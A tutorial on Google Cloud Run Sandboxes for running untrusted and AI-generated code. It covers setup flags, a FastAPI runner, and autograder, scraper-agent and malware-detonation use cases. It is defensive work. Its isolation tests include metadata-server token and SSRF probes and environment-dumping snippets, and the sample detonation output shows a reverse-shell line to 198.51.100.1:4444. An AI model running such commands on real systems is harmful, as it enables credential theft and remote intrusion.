


# Getting Started with Google Cloud Run Sandboxes
### A Comprehensive Guide to In-Container Isolation, Micro-Sandboxing, and Production AI Execution Planes

---

## Table of Contents
1. [Introduction](#1-introduction)
2. [Why Cloud Run Sandboxes?](#2-why-cloud-run-sandboxes)
   - [The Fatal Flaw of `eval()` and Raw Subprocesses](#the-fatal-flaw-of-eval-and-raw-subprocesses)
   - [The Zero-Trust Triad](#the-zero-trust-triad)
   - [Economics & Latency: MicroVMs vs In-Instance Sandboxes](#economics--latency-microvms-vs-in-instance-sandboxes)
   - [Architectural Security Boundaries (Diagram)](#architectural-security-boundaries)
3. [Step-by-Step: Enabling and Operating Sandboxes](#3-step-by-step-enabling-and-operating-sandboxes)
   - [Prerequisites](#prerequisites)
   - [Enabling via CLI and YAML](#enabling-via-cli-and-yaml)
   - [The Sandbox CLI Anatomy](#the-sandbox-cli-anatomy)
   - [Lifecycle Modes & Mount Topologies (Diagrams)](#lifecycle-modes--mount-topologies)
4. [101 Example: Safe Code Runner Microservice](#4-101-example-safe-code-runner-microservice)
   - [Application Code & Dockerfile](#application-code--dockerfile)
   - [Deployment Walkthrough](#deployment-walkthrough)
   - [Verifying the Security Boundaries Live](#verifying-the-security-boundaries-live)
5. [End-to-End Real-World Use Cases](#5-end-to-end-real-world-use-cases)
   - [Use Case 1: Educational Autograder & Competitive Programming Judge](#use-case-1-educational-autograder--competitive-programming-judge)
   - [Use Case 2: AI-Assisted Autonomous Web Scraper & Research Agent](#use-case-2-ai-assisted-autonomous-web-scraper--research-agent)
   - [Use Case 3: SecOps Incident Response & Malware Payload Detonator](#use-case-3-secops-incident-response--malware-payload-detonator)
6. [Best Practices & Operational Checklist](#6-best-practices--operational-checklist)
7. [References & Further Reading](#7-references--further-reading)

---

## 1. Introduction

Modern cloud architectures are undergoing a fundamental transformation. For years, cloud-native design centered around stateless microservices processing predictable payloads. Today, the rapid rise of **autonomous AI agents**, **LLM code interpreters**, **multi-tenant SaaS platforms**, and **user-extensible workflows** requires systems to execute dynamic, arbitrary, and fundamentally untrusted code at runtime.

When an AI agent writes a Python script to compute statistical correlations, or when an e-commerce platform executes a customer's custom checkout rule, executing that code in the host container environment introduces severe attack vectors:
- Host filesystem tampering.
- Environment variable and secret exfiltration.
- SSRF attacks against Cloud Instance Metadata endpoints (`169.254.169.254`).
- Denial of Service (DoS) via unconstrained CPU/memory consumption.

Until recently, engineering teams faced an uncomfortable trade-off: spin up dedicated Virtual Machines or isolated multi-tenant Kubernetes clusters (costly and suffering from 15–60 second cold starts) or use third-party microVM SaaS providers.

**Google Cloud Run Sandboxes (Public Preview)** introduce native, sub-second, micro-isolated execution boundaries **directly inside your existing second-generation Cloud Run container instances**. By leveraging a lightweight virtualization boundary, Cloud Run enables host applications to spawn sealed sandboxes in milliseconds, sharing the container's allocated CPU and RAM with zero additional infrastructure costs.



---

## 2. Why Cloud Run Sandboxes?

### The Fatal Flaw of `eval()` and Raw Subprocesses

A common anti-pattern in early agentic prototypes is executing model-generated code directly via Python’s `eval()`, `exec()`, or `subprocess.run(["python3", "-c", code])`. 

```python
# ⚠️ CATASTROPHIC ANTI-PATTERN: Raw in-process execution
eval(user_supplied_code)
# Or
subprocess.run(["python3", "-c", llm_generated_code])
```

Why is this fatal in production?
1. **Shared Memory Space**: `eval()` runs inside your interpreter process. It can mutate global objects, hijack running web frameworks, or read in-memory tokens.
2. **Access to Environment Variables**: Raw `subprocess.run()` inherits `os.environ`. An attacker can run `import os; print(os.environ)` to extract database passwords, private API keys, and service tokens.
3. **Access to GCP Metadata Server**: By default, any process on Cloud Run can query `http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token` and obtain a short-lived Google OAuth token with the service account's full privileges.
4. **Permanent Filesystem Pollution**: Malicious code can overwrite host binaries or plant backdoor webhooks in writable directories.

### The Zero-Trust Triad

Cloud Run Sandboxes solve this through a **Zero-Trust by Default** architecture built around three non-negotiable boundaries:



1. **Credential & Environment Isolation**:
   - Sandboxes **do not inherit** environment variables from the host container.
   - Sandboxes are **strictly cut off** from the GCP Instance Metadata Server (`169.254.169.254`). Even if untrusted code executes `curl http://169.254.169.254`, the connection is dropped immediately.
2. **Deny-by-Default Network Egress**:
   - All outbound network calls (to the public internet or private VPCs) are blocked by default. 
   - Code cannot phone home to Command & Control (C2) servers or exfiltrate scraped data unless `--allow-egress` is explicitly granted.
3. **Ephemeral, Isolated Filesystem**:
   - The host container root filesystem is visible to the sandbox as **read-only**.
   - If the code attempts to modify existing files or create new ones without configuration, the kernel denies the write with `Read-only file system`.
   - Passing `--write` provides an ephemeral `tmpfs` copy-on-write overlay that is completely destroyed when the sandbox exits.
   - For controlled data exchange, explicit directory mounts can be passed using `--mount type=bind,...`.

### Economics & Latency: MicroVMs vs In-Instance Sandboxes

| Metric | Traditional Dedicated VM / Node | External MicroVM SaaS | Cloud Run Sandboxes |
| :--- | :--- | :--- | :--- |
| **Startup Latency** | 30s – 120s | 800ms – 2500ms | **< 200ms – 500ms** |
| **Infrastructure Overhead** | Dedicated GCE / GKE nodes | Separate external vendor API | **Zero extra infrastructure** |
| **Cost Model** | Hourly VM billing | Per-sandbox invocation fees | **Shares allocated Cloud Run CPU & RAM** |
| **Data Locality** | Network hop across clusters | Egress across internet to third-party | **In-memory / Local host disk** |
| **Security Boundary** | Hypervisor (KVM) | MicroVM (Firecracker) | **Micro-sandbox inside Cloud Run Gen2** |

---

## 3. Step-by-Step: Enabling and Operating Sandboxes

### Prerequisites

1. A Google Cloud project with billing enabled.
2. The `gcloud` CLI installed with the `beta` components:
   ```bash
   gcloud components install beta
   ```
3. The Cloud Run API enabled:
   ```bash
   gcloud services enable run.googleapis.com
   ```

### Enabling via CLI and YAML

Cloud Run Sandboxes require the **second-generation execution environment (`gen2`)**. 

#### Option A: Google Cloud CLI (`gcloud`)
When deploying or updating a service, pass the `--sandbox-launcher` flag:

```bash
gcloud beta run deploy my-agent-service \
    --source . \
    --region us-central1 \
    --execution-environment gen2 \
    --sandbox-launcher \
    --memory 2Gi \
    --cpu 2
```

To update an existing service:
```bash
gcloud beta run services update my-agent-service \
    --sandbox-launcher \
    --region us-central1
```

#### Option B: Declarative Knative YAML
In your service specification, enable the `sandboxLauncher` attribute under `spec.template.spec.containers`:

```yaml
apiVersion: serving.knative.dev/v1
kind: Service
metadata:
  name: my-agent-service
  annotations:
    run.googleapis.com/launch-stage: BETA
spec:
  template:
    spec:
      containers:
      - image: us-central1-docker.pkg.dev/my-project/repo/agent:latest
        name: agent-container
        sandboxLauncher: true
        resources:
          limits:
            cpu: "2"
            memory: "2Gi"
```

Apply with:
```bash
gcloud run services replace service.yaml
```

### The Sandbox CLI Anatomy

When `--sandbox-launcher` is enabled, Cloud Run automatically mounts an optimized binary at:
```text
/usr/local/gcp/bin/sandbox
```

#### Core Subcommands

1. **`sandbox do`**: Executes an ephemeral, one-shot command. Spins up the sandbox, runs the command, and destroys the sandbox immediately upon completion.
   ```bash
   sandbox do [FLAGS] -- <COMMAND> [ARGS...]
   ```

2. **`sandbox run`**: Launches a named sandbox in the background (using `--detach`) that remains active to accept subsequent executions.
   ```bash
   sandbox run <SANDBOX_NAME> --detach [FLAGS] -- <BACKGROUND_CMD>
   ```

3. **`sandbox exec`**: Runs a command inside an existing, running detached sandbox.
   ```bash
   sandbox exec <SANDBOX_NAME> -- <COMMAND> [ARGS...]
   ```

4. **`sandbox tar`**: Creates a compressed tar archive of all modified and created files in a sandbox's overlay.
   ```bash
   sandbox tar <SANDBOX_NAME> --file=<DESTINATION_PATH.tar>
   ```

5. **`sandbox delete`**: Destroys and cleans up a detached sandbox.
   ```bash
   sandbox delete <SANDBOX_NAME>
   ```

#### Essential Flags Reference

| Flag | Purpose | Default Behavior |
| :--- | :--- | :--- |
| `--write` | Enables a writable `tmpfs` overlay for filesystem modifications. | Read-only filesystem. |
| `--allow-egress` | Grants outbound network connectivity to internet/VPC. | All outbound traffic blocked. |
| `--mount` | Mounts host directories into the sandbox: `type=bind,source=<SRC>,destination=<DEST>[,readonly]`. | No shared host directories. |
| `--env KEY=VAL` | Injects an explicit environment variable into the sandbox. | Zero host environment variables. |
| `--export-tar=<PATH>` | Exports modified files to a tarball upon exit (`sandbox do`). | Overlay files discarded. |
| `--import-tar=<PATH>` | Pre-populates the sandbox filesystem from a tar archive before running. | Clean container baseline. |
| `--sync-tar=<PATH>` | Imports tar before execution and exports modifications to it upon exit. | No filesystem syncing. |

### Lifecycle Modes & Mount Topologies

```mermaid
flowchart TB
    subgraph ModeA ["Mode 1: One-Shot Execution (sandbox do)"]
        direction LR
        A1["1. Host Runs<br/><code>sandbox do -- &lt;cmd&gt;</code>"] --> A2["2. Instant Spawn<br/><i>(&lt;200ms)</i>"] --> A3["3. Command Executes<br/><i>Isolated Kernel</i>"] --> A4["4. Auto-Destroy<br/><i>Overlay Discarded</i>"]
    end

    subgraph ModeB ["Mode 2: Detached Stateful Execution (sandbox run)"]
        direction LR
        B1["1. Host Starts Daemon<br/><code>sandbox run --detach</code>"] --> B2["2. Idle Daemon Ready<br/><i>(e.g., sleep 30m)</i>"] --> B3["3. Fast Executions<br/><code>sandbox exec</code> (&lt;5ms)"] --> B4["4. Export Overlay<br/><code>sandbox tar</code>"] --> B5["5. Teardown<br/><code>sandbox delete</code>"]
    end
```

```mermaid
flowchart TB
    subgraph Storage ["Filesystem Sharing Topologies"]
        direction TB

        subgraph S1 ["1. Default Baseline"]
            direction LR
            H1["Host Container Root (/)"] -->|"Read-Only Access"| SB1["Sandbox Baseline (Read-Only)"]
        end

        subgraph S2 ["2. Ephemeral Overlay"]
            direction LR
            H2["--write Flag"] -->|"Allocates RAM tmpfs"| SB2["Writable /tmp (Discarded on Exit)"]
        end

        subgraph S3 ["3. Host Directory Mount"]
            direction LR
            H3["Host Directory (/tmp/data)"] -->|"--mount type=bind,readonly"| SB3["Sandbox Path (/mnt/data)"]
        end

        subgraph S4 ["4. Tarball Archive Sync"]
            direction LR
            H4["Host Tar Archive (state.tar)"] -->|"--sync-tar=state.tar"| SB4["Two-Way State Sync"]
        end
    end
```





---

## 4. 101 Example: Safe Code Runner Microservice

Let’s implement a minimal, production-grade microservice that accepts untrusted code payloads and runs them inside a Cloud Run Sandbox.

### Application Code & Dockerfile

All code for this example is available in [`examples/01-hello-sandbox-101/`](examples/01-hello-sandbox-101/).

#### `main.py`
```python
import os
import shutil
import subprocess
import time
from typing import Literal
from fastapi import FastAPI
from pydantic import BaseModel, Field

app = FastAPI(title="Cloud Run Sandbox 101 Runner")

SANDBOX_BIN = "/usr/local/gcp/bin/sandbox" if os.path.exists("/usr/local/gcp/bin/sandbox") else shutil.which("sandbox")

class ExecutionRequest(BaseModel):
    language: Literal["python", "bash"] = "python"
    code: str
    allow_write: bool = False
    allow_egress: bool = False
    timeout_sec: int = Field(default=10, ge=1, le=60)

class ExecutionResponse(BaseModel):
    success: bool
    exit_code: int
    stdout: str
    stderr: str
    execution_time_ms: float
    is_sandboxed: bool

@app.post("/run", response_model=ExecutionResponse)
def run_code(req: ExecutionRequest):
    start_time = time.time()
    
    if not SANDBOX_BIN:
        return ExecutionResponse(
            success=False,
            exit_code=-1,
            stdout="",
            stderr="ERROR: 'sandbox' binary not found. Deploy with --sandbox-launcher.",
            execution_time_ms=0,
            is_sandboxed=False,
        )

    # Choose interpreter
    inner_cmd = ["/usr/bin/python3", "-c", req.code] if req.language == "python" else ["/bin/bash", "-c", req.code]

    # Assemble sandbox invocation
    cmd = [SANDBOX_BIN, "do"]
    if req.allow_write:
        cmd.append("--write")
    if req.allow_egress:
        cmd.append("--allow-egress")
    cmd.append("--")
    cmd.extend(inner_cmd)

    try:
        proc = subprocess.run(cmd, capture_output=True, text=True, timeout=req.timeout_sec)
        return ExecutionResponse(
            success=(proc.returncode == 0),
            exit_code=proc.returncode,
            stdout=proc.stdout,
            stderr=proc.stderr,
            execution_time_ms=(time.time() - start_time) * 1000,
            is_sandboxed=True,
        )
    except subprocess.TimeoutExpired as e:
        return ExecutionResponse(
            success=False,
            exit_code=124,
            stdout=e.stdout or "",
            stderr=f"Execution timed out after {req.timeout_sec}s",
            execution_time_ms=(time.time() - start_time) * 1000,
            is_sandboxed=True,
        )

# Security verification test endpoints
@app.post("/test/env-isolation")
def test_env_isolation():
    os.environ["HOST_SUPER_SECRET"] = "secret-token-do-not-leak"
    probe = "import os; print('HOST_SUPER_SECRET=' + os.getenv('HOST_SUPER_SECRET', '<NOT_FOUND>'))"
    return run_code(ExecutionRequest(language="python", code=probe))

@app.post("/test/metadata-isolation")
def test_metadata_isolation():
    probe = "curl -s --connect-timeout 2 http://169.254.169.254/computeMetadata/v1/instance/ || echo 'METADATA_ACCESS_BLOCKED'"
    return run_code(ExecutionRequest(language="bash", code=probe, allow_egress=False))

@app.post("/test/fs-isolation")
def test_fs_isolation():
    probe = "echo 'malicious write' > /test_probe.txt"
    return run_code(ExecutionRequest(language="bash", code=probe, allow_write=False))
```

#### `Dockerfile`
```dockerfile
FROM python:3.11-slim

RUN apt-get update && apt-get install -y --no-install-recommends \
    curl \
    ca-certificates \
    bash \
    && rm -rf /var/lib/apt/lists/*

RUN ln -sf $(which python3) /usr/bin/python3

WORKDIR /app
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt
COPY main.py .

ENV PORT=8080
EXPOSE 8080
CMD ["python3", "main.py"]
```

### Deployment Walkthrough

Deploy directly from source to Cloud Run with `--sandbox-launcher`:

```bash
gcloud beta run deploy sandbox-hello-101 \
    --source examples/01-hello-sandbox-101 \
    --region us-central1 \
    --execution-environment gen2 \
    --sandbox-launcher \
    --allow-unauthenticated \
    --memory 1Gi \
    --cpu 1
```

Once deployment finishes, retrieve your service URL:
```bash
SERVICE_URL=$(gcloud run services describe sandbox-hello-101 --region us-central1 --format='value(status.url)')
echo "Service is live at: ${SERVICE_URL}"
```

> **Verified Live Deployment**:
> Service URL: `https://sandbox-hello-101-415458962931.us-central1.run.app`
> Project: `gcp-experiments-349209` (Region: `us-central1`)

### Verifying the Security Boundaries Live

Let’s issue curl requests against the live deployed service to verify each security boundary:

#### Test 1: Successful Computation
```bash
curl -s -X POST "https://sandbox-hello-101-415458962931.us-central1.run.app/run" \
  -H "Content-Type: application/json" \
  -d '{"language": "python", "code": "import math; print([math.factorial(i) for i in range(7)])"}'
```
**Live Output (Verified):**
```json
{
  "success": true,
  "exit_code": 0,
  "stdout": "[1, 1, 2, 6, 24, 120, 720]\n",
  "stderr": "",
  "execution_time_ms": 649.4,
  "is_sandboxed": true
}
```

#### Test 2: Host Environment Variable Snooping
The host container sets `HOST_SUPER_SECRET=secret-token-do-not-leak`. Let’s verify the sandbox cannot read it:
```bash
curl -s -X POST "https://sandbox-hello-101-415458962931.us-central1.run.app/test/env-isolation"
```
**Live Output (Verified):**
```json
{
  "success": true,
  "exit_code": 0,
  "stdout": "HOST_SUPER_SECRET=<NOT_FOUND>\n",
  "stderr": "",
  "execution_time_ms": 635.9,
  "is_sandboxed": true
}
```
*Result: Host environment variables are completely invisible inside the sandbox.*

#### Test 3: GCP Metadata Server Access
Attempting to reach the Google Cloud metadata server (`169.254.169.254`):
```bash
curl -s -X POST "https://sandbox-hello-101-415458962931.us-central1.run.app/test/metadata-isolation"
```
**Live Output (Verified):**
```json
{
  "success": true,
  "exit_code": 0,
  "stdout": "METADATA_ACCESS_BLOCKED\n",
  "stderr": "",
  "execution_time_ms": 961.6,
  "is_sandboxed": true
}
```
*Result: Connection to 169.254.169.254 is instantly dropped by the sandbox network filter.*

#### Test 4: Filesystem Tampering
Attempting to write to root without `--write`:
```bash
curl -s -X POST "https://sandbox-hello-101-415458962931.us-central1.run.app/test/fs-isolation"
```
**Live Output (Verified):**
```json
{
  "success": false,
  "exit_code": 1,
  "stdout": "",
  "stderr": "/bin/bash: line 1: /test_probe.txt: Read-only file system\nError: failed to exec in container: cmd.Wait(exec) failed: exit status 1\n\n",
  "execution_time_ms": 737.0,
  "is_sandboxed": true
}
```
*Result: Root filesystem modifications are blocked.*

---

## 5. End-to-End Real-World Use Cases

Now let's explore three unique production-grade architectures that demonstrate the full power of Cloud Run Sandboxes across different industry domains.

---

### Use Case 1: Educational Autograder & Competitive Programming Judge

```mermaid
sequenceDiagram
    autonumber
    actor Student as Student Candidate
    participant API as Autograder Service
    participant Disk as Host Submissions (/tmp)
    participant Box as Sandbox Process

    Student->>API: POST /grade (solution code)
    API->>Disk: Writes solution.py to temp dir
    API->>Box: Spawns sandbox (dual read-only mounts)
    Note over API,Box: /app/test_suite -> /mnt/test_suite (ro)<br/>/tmp/sub -> /mnt/student (ro)
    Box->>Box: Executes runner against hidden tests
    Box-->>API: Returns JSON verdict on stdout
    API->>Disk: Deletes temporary submission folder
    API-->>Student: Returns test breakdown & metrics
```

#### The Architecture & Challenge
Online judges (like LeetCode, HackerRank, or university autograders) must execute arbitrary student submissions against hidden test cases. Common challenges include:
1. Students trying to read the test harness code or secret answer keys on the server.
2. Students writing infinite loops or memory bombs.
3. Students using sockets to phone home answers.
4. Malicious submissions trying to overwrite server files.

#### The Cloud Run Sandbox Solution
- The hidden test cases live in `/app/test_suite` on the host container.
- When a submission arrives, the host writes it to a temporary directory (`/tmp/sub_<id>`).
- The sandbox runs with **two read-only bind mounts**:
  `--mount type=bind,source=/app/test_suite,destination=/mnt/test_suite,readonly`
  `--mount type=bind,source=/tmp/sub_<id>,destination=/mnt/student,readonly`
- `--allow-egress` is **omitted** (strict zero egress).
- A strict timeout (5 seconds) kills runaway loops cleanly.

#### Implementation Highlights (`examples/02-educational-autograder/`)

**Test Runner (`test_suite/runner.py`):**
```python
import sys, json, importlib.util

TEST_CASES = [
    {"nums": [2, 7, 11, 15], "target": 9, "expected": [0, 1]},
    {"nums": [3, 2, 4], "target": 6, "expected": [1, 2]},
    {"nums": [3, 3], "target": 6, "expected": [0, 1]},
    {"nums": [-1, -2, -3, -4, -5], "target": -8, "expected": [2, 4]},
]

def load_student_module(path="/mnt/student/solution.py"):
    spec = importlib.util.spec_from_file_location("student", path)
    mod = importlib.util.module_from_spec(spec)
    spec.loader.exec_module(mod)
    return mod

def run():
    report = {"total_tests": len(TEST_CASES), "passed_tests": 0, "failed_tests": 0, "verdict": "ACCEPTED", "details": []}
    student = load_student_module()
    for idx, tc in enumerate(TEST_CASES, 1):
        actual = student.two_sum(list(tc["nums"]), tc["target"])
        if actual and sorted(actual) == sorted(tc["expected"]):
            report["passed_tests"] += 1
            report["details"].append({"test": idx, "status": "PASSED"})
        else:
            report["failed_tests"] += 1
            report["verdict"] = "WRONG_ANSWER"
            report["details"].append({"test": idx, "status": "FAILED"})
    print(json.dumps(report))

if __name__ == "__main__":
    run()
```

**Autograder Orchestration (`autograder.py`):**
```python
cmd = [
    SANDBOX_BIN, "do",
    "--mount", f"type=bind,source={TEST_SUITE_DIR},destination=/mnt/test_suite,readonly",
    "--mount", f"type=bind,source={work_dir},destination=/mnt/student,readonly",
    "--",
    "/usr/bin/python3", "/mnt/test_suite/runner.py"
]
proc = subprocess.run(cmd, capture_output=True, text=True, timeout=5)
```

#### Grading Malicious Exploits
When a student submits code attempting to read `/etc/passwd`, steal environment variables, or write to `/tmp`:
```python
# sample_submissions/malicious_exploit.py
import os, urllib.request
def two_sum(nums, target):
    secret = os.getenv("AUTOGRADER_SECRET_KEY", "NOT_FOUND") # Returns NOT_FOUND
    # Any write to /tmp without --write fails immediately
    return [0, 1]
```
The sandbox shields all host secrets and blocks disk tampering.

---

### Use Case 2: AI-Assisted Autonomous Web Scraper & Research Agent

```mermaid
flowchart TB
    User["User / Agent Planner"] -->|"POST /scrape (URL)"| Host["Cloud Run Scraper Service<br/><i>(Contains LLM API Keys)</i>"]

    subgraph SandboxBoundary ["Cloud Run Sandbox Boundary (--allow-egress)"]
        Worker["Scraper Worker Process<br/><code>BeautifulSoup / urllib</code>"]
    end

    Target["External Website<br/><i>(Untrusted Target)</i>"]
    Meta["GCP Metadata Server<br/><code>169.254.169.254</code>"]

    Host -->|"Spawns sandbox do"| Worker
    Worker -->|"✅ Outbound HTTPS"| Target
    Target -->>|"Returns HTML payload"| Worker
    Worker -.->|"❌ Blocked: SSRF Shield"| Meta
    Worker -.->|"❌ Blocked: Cannot Read Secrets"| Host
    Worker -->>|"Sanitized JSON (stdout)"| Host
    Host -->>|"Clean Structured Output"| User
```

#### The Architecture & Challenge
Autonomous research agents crawl third-party websites to extract data, download documents, and summarize content. 
However, web scraping poses severe security vulnerabilities:
1. **Server-Side Request Forgery (SSRF)**: An attacker-controlled target website might redirect the scraper to `http://169.254.169.254/computeMetadata/v1/` to extract access tokens.
2. **Untrusted HTML Parsing Flaws**: Vulnerabilities in HTML parsers or browser engines can result in arbitrary native code execution.
3. **Leaking Agent API Keys**: If the scraper process crashes with a traceback or dumps memory, any environment variables (e.g. `GEMINI_API_KEY`, `OPENAI_API_KEY`) present in that process are exposed.

#### The Cloud Run Sandbox Solution
- The scraping script is launched inside a sandbox with **`--allow-egress`** enabled so it can connect to external websites.
- **Critical Cloud Run Invariant**: Even with `--allow-egress`, Cloud Run Sandboxes **actively block queries to the GCP Metadata Server (`169.254.169.254`)**!
- The host agent's environment variables (`LLM_API_KEY`, `DATABASE_URL`) are completely withheld from the sandbox.
- The scraper runs in isolation and communicates results purely as sanitized JSON over stdout.

#### Implementation Highlights (`examples/03-autonomous-web-scraper/`)

```python
# Launching the scraper with network egress
cmd = [
    SANDBOX_BIN, "do",
    "--allow-egress",
    "--",
    "/usr/bin/python3", "-c", scraper_script
]
proc = subprocess.run(cmd, capture_output=True, text=True, timeout=15)
```

#### Proving SSRF Immunity (`POST /test/ssrf-metadata-check`)
Even when `--allow-egress` is active, executing an SSRF probe against the metadata server yields:
```json
{
  "sandbox_egress_flag": true,
  "probe_result": {
    "metadata_access": "BLOCKED: URLError",
    "llm_key_access": "NOT_ACCESSIBLE"
  },
  "verdict": "SECURE: Metadata server and host environment variables are strictly shielded despite internet egress."
}
```

---

### Use Case 3: SecOps Incident Response & Malware Payload Detonator

```mermaid
sequenceDiagram
    autonumber
    actor SecOps as Security Analyst
    participant Host as Detonator Host
    participant Box as Detached Sandbox

    SecOps->>Host: POST /detonate (untrusted script)
    Host->>Box: 1. sandbox run (starts detached daemon)
    Note over Host,Box: Ephemeral background sandbox ready in &lt;100ms
    Host->>Box: 2. sandbox exec (executes payload)
    Box->>Box: Payload drops files in /tmp, C2 beacon blocked
    Host->>Box: 3. sandbox tar (captures overlay to tar)
    Host->>Box: 4. sandbox delete (teardown)
    Note over Host: Extracts tar on host, calculates SHA256 & IOCs
    Host-->>SecOps: Returns Forensic Incident Report
```

#### The Architecture & Challenge
When a suspicious script, obfuscated bash one-liner, or malware dropper is detected in an alert, security teams need to "detonate" the script to observe its behavior:
- What files does it create or encrypt?
- What persistence mechanisms does it install?
- What network domains or C2 endpoints does it attempt to call?

Running this on a developer's workstation or production server is unsafe. Spinning up heavy virtual machine sandboxes (like Cuckoo) takes 30–60 seconds per payload.

#### The Cloud Run Sandbox Solution
Cloud Run Sandboxes provide a high-throughput detonation environment:
1. Spin up a **detached background sandbox** with a writable `tmpfs` overlay:
   `sandbox run <session_id> --write --detach -- sleep 5m`
2. Mount the suspicious script read-only and detonate it via `sandbox exec`:
   `sandbox exec <session_id> -- /bin/bash /mnt/host/payload.sh`
3. Network egress is denied by default, neutralizing reverse shells and ransomware exfiltration.
4. Capture a **forensic snapshot of all modified and created files** using:
   `sandbox tar <session_id> --file=/tmp/evidence.tar`
5. Destroy the sandbox cleanly:
   `sandbox delete <session_id>`
6. The host container inspects `evidence.tar`, generating SHA-256 hashes and file diffs.

#### Implementation Highlights (`examples/04-secops-payload-detonator/`)

**Detonation Workflow (`detonator.py`):**
```python
# 1. Start detached sandbox with writable overlay
subprocess.run([
    SANDBOX_BIN, "run",
    "--write", session_id,
    "--detach",
    "--mount", f"type=bind,source={host_workdir},destination=/mnt/host,readonly",
    "--", "/bin/bash", "-c", "sleep 5m"
], check=True)

# 2. Detonate payload
proc = subprocess.run([
    SANDBOX_BIN, "exec", session_id,
    "--", "/bin/bash", "/mnt/host/payload.sh"
], capture_output=True, text=True, timeout=req.timeout_sec)

# 3. Export filesystem modifications to tarball
subprocess.run([
    SANDBOX_BIN, "tar", session_id,
    f"--file={tar_path}"
], check=True)

# 4. Clean up sandbox
subprocess.run([SANDBOX_BIN, "delete", session_id])

# 5. Extract and analyze dropped files on the host
with tarfile.open(tar_path, "r") as tar:
    tar.extractall(path=extract_dir)
# Compute SHA256 hashes and IOCs...
```

**Detonating a Simulated Ransomware Dropper:**
When running the simulated dropper payload (`sample_payloads/ransomware_dropper_sim.sh`), the detonator returns:
```json
{
  "session_id": "detox-84a12f9b",
  "execution_success": true,
  "exit_code": 0,
  "execution_time_ms": 612.4,
  "dropped_files_count": 3,
  "dropped_files": [
    {
      "filename": "/tmp/README_RESTORE_FILES.txt",
      "size_bytes": 128,
      "sha256": "4b227777d4dd1fc61c6f884f48641d02b4d121d3fd328cb08b5531fcacdabf8a",
      "preview": "YOUR FILES HAVE BEEN SIMULATED AS ENCRYPTED."
    },
    {
      "filename": "/tmp/.hidden_beacon/backdoor.sh",
      "size_bytes": 48,
      "sha256": "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855",
      "preview": "bash -i >& /dev/tcp/198.51.100.1/4444 0>&1"
    }
  ],
  "c2_callbacks_prevented": true,
  "metadata_theft_prevented": true
}
```

---

## 6. Best Practices & Operational Checklist

When designing production systems with Cloud Run Sandboxes, adhere to these guidelines:

### 1. Resource Sizing (CPU & Memory)
- **Shared Capacity**: Sandboxes share the CPU and RAM allocated to your Cloud Run instance. If your service has `2GiB` RAM and you execute four concurrent sandboxes each allocating `400MiB`, your container risks an Out-Of-Memory (OOM) crash.
- **Recommendation**: Configure Cloud Run instance limits (`--memory 4Gi --cpu 2`) and throttle concurrent sandbox executions per instance using an async semaphore.

### 2. Sandbox Mode Selection: `sandbox do` vs Detached `sandbox run`
- Use **`sandbox do`** for one-off, stateless tasks (e.g. autograding a student submission, running a single math calculation).
- Use **`sandbox run --detach` + `sandbox exec`** when executing interactive multi-step tasks (e.g. an AI agent iteratively refining a script, or executing multiple commands in <10ms without re-initializing the sandbox).

### 3. Absolute Paths and `$PATH` Configuration
- Commands inside the sandbox execute in a clean environment. 
- Always reference binaries by their absolute paths (e.g. `/usr/bin/python3`, `/bin/bash`, `/usr/bin/node`) or explicitly pass `--env PATH=/usr/local/bin:/usr/bin:/bin`.

### 4. Never Pass Secrets via `--env`
- Avoid passing sensitive tokens via `--env API_KEY=xyz` to the sandbox, as processes running inside the sandbox can inspect `/proc/self/environ` or run `env`.

### 5. Always Set Subprocess Timeouts
- Untrusted code can intentionally or accidentally enter infinite loops (`while True: pass`).
- Always wrap your `subprocess.run()` calls with an explicit `timeout=` parameter to prevent sandbox processes from hanging indefinitely.

---

## 7. References & Further Reading

This tutorial draws inspiration from the foundational work, architectures, and announcements from Google Cloud engineering and developer advocacy:

1. **[Google Cloud Run Sandboxes Are in Public Preview](https://cloud.google.com/blog/topics/developers-practitioners/google-cloud-run-sandboxes-are-in-public-preview)** (Google Cloud Blog)  
   *By Ryan Pei & Greg Block.* The official announcement introducing in-instance micro-sandboxing at WeAreDevelopers, detailing sub-second execution and the zero-trust security triad.
2. **[Cloud Run Sandboxes Now in Public Preview](https://medium.com/google-cloud/cloud-run-sandboxes-now-in-public-preview-538f077eb3eb)**  
   *By Sara Ford.* A hands-on guide exploring the `--sandbox-launcher` flag, command syntax, and latency advantages.
3. **[More Things You Can Do with Cloud Run Sandboxes](https://medium.com/google-cloud/more-things-you-can-do-with-cloud-run-sandboxes-5f50fd6d60f2)**  
   *By Sara Ford.* Practical deep dives into coding katas, running untrusted binaries, and interactive sandbox commands.
4. **[Cloud Run Sandboxes: Building Secure Execution Plane for AI Agents](https://medium.com/google-cloud/cloud-run-sandboxes-building-secure-execution-plane-for-ai-agents-48aee4acc91e)**  
   *By Shuva Jyoti Kar.* Architectural patterns for decoupling agent reasoning from execution, designing threat-contained execution planes for production agents.
5. **[Let Your Agent Run Its Own Code Inside a Cloud Run Sandbox](https://medium.com/google-cloud/let-your-agent-run-its-own-code-inside-a-cloud-run-sandbox-965633fb7f0c)**  
   *By Sascha Heyer.* Practical patterns integrating Google’s Agent Development Kit (ADK) with the `CloudRunSandboxCodeExecutor`.
6. **[Eval Is Evil: How to Safely Execute Untrusted AI Code with Cloud Run Sandboxes and ADK](https://medium.com/google-cloud/eval-is-evil-how-to-safely-execute-untrusted-ai-code-with-cloud-run-sandboxes-and-adk-217d1737b5b7)**  
